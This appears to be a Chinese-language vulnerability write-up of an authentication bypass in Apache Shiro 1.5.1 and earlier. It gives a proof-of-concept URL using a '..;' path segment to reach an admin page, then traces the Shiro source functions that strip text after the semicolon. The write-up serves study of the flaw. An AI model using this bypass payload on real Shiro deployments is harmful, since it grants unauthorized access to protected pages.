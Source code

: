 # 环境

shiro版本<=1.5.1



# 攻击与分析

POC：

```
http://192.168.174.1:8081/doLogin/..;/admin/page
```



在`org/apache/shiro/web/filter/mgt/PathMatchingFilterChainResolver.java`的`getChain()`方法里面：

```java
        String requestURI = getPathWithinApplication(request);
```

跟进`getPathWithinApplication()`：

```java
    public static String getPathWithinApplication(HttpServletRequest request) {
        String contextPath = getContextPath(request);
        String requestUri = getRequestUri(request);
        if (StringUtils.startsWithIgnoreCase(requestUri, contextPath)) {
            // Normal case: URI contains context path.
            String path = requestUri.substring(contextPath.length());
            return (StringUtils.hasText(path) ? path : "/");
        } else {
            // Special case: rather unusual.
            return requestUri;
        }
    }
```

跟进`getRequestUri()`：

```java
    public static String getRequestUri(HttpServletRequest request) {
        String uri = (String) request.getAttribute(INCLUDE_REQUEST_URI_ATTRIBUTE);
        if (uri == null) {
            uri = request.getRequestURI();
        }
        return normalize(decodeAndCleanUriString(request, uri));
    }
```

还是熟悉的那两个函数，`decodeAndCleanUriString`和`normalize`。

```java
    private static String decodeAndCleanUriString(HttpServletRequest request, String uri) {
        uri = decodeRequestString(request, uri);
        int semicolonIndex = uri.indexOf(';');
        return (semicolonIndex != -1 ? uri.substring(0, semicolonIndex) : uri);
    }
```

先url解码然后分割，后面懂得都懂了。

Shiro得到的是`/doLogin/..`。
